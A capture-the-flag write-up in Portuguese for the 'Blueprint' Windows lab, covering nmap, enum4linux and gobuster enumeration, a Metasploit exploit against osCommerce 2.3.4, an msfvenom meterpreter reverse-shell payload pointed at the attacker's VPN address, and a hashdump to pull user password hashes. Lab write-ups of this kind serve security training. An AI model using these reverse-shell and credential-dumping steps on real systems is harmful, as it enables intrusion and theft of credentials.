

# _**Blueprint CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
  

  

Tentando acessar o que tem na porta 80, não foi encontrado nada  
Vamos tentar realizar enumeração com a ferramenta <mark>Enum4Linux</mark>  
> ```bash
> enum4linux -a [ip_address]
> ```


Após a enumeração, nada de relevante foi encontrado  
Na pora adiante, 8080, temos uma pasta com algumas informações do próprio site  
Antes de vasculharmos, podemos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]:8080/oscommerce-2.3.4/catalog/ -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```


Temos diversos diretórios interessantes descobertos  
Vamos primeiro verificar _/admin_  
Uma página de login e também a disposição, versão do software  
Procurando no <mark>Metasploit</mark> alguma versão de exploit, encontramos e vamos uitlizar a seguinte  


Configurando as opções necessárias, obtemos uma sessão meterpreter e vamos digitar ```shell``` para obter uma  


Devido a instabilidade desta shell, vamos ter que contornar  
Primeiro, vamos criar um _paylaod_ e realizar _upload_ via nossa sessão
> ```bash
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpn_ip_address] LPORT=[port] -f exe > shell.exe
> ```

Segundo, vamos abrir uma nova sessão no metasploit  
Selecionamos _multi/handler_ e o exploit _windows/meterpreter/reverse_tcp_  
Configuramos as opções necessárias como **LPORT** e **LHOST**  
Executamos  
Na sessão meterpreter anterior, vamos executar o seguinte comando ```upload shell.exe``` no diretório C:\Windows\System32  
No mesmo diretório, executamos o comando ```execute -f shell.exe```  
Assim que executado, conseguimos uma nova sessão meterpreter e desta vez, mais estável  
Agora, digitamos ```hashdump``` para obter a hash do usuário ```Lab```  


Navegando até _C:\Users\Administrator\Desktop\_ e procurando, conseguimos encontrar a flag _root.txt_  
